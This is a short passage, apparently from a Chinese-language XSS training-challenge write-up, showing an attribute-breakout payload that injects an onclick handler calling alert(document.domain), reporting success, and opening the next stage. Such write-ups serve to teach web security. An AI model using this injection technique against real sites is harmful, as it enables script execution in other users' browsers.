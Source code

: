 尝试使用onclick属性进行攻击

```text
mrzhang76" onclick="alert(document.domain);"
```

攻击成功

![](../../.gitbook/assets/image%20%2898%29.png)

## **Stage7:**

![&#x9898;&#x76EE;&#x5165;&#x53E3;](../../.gitbook/assets/image%20%2851%29.png)
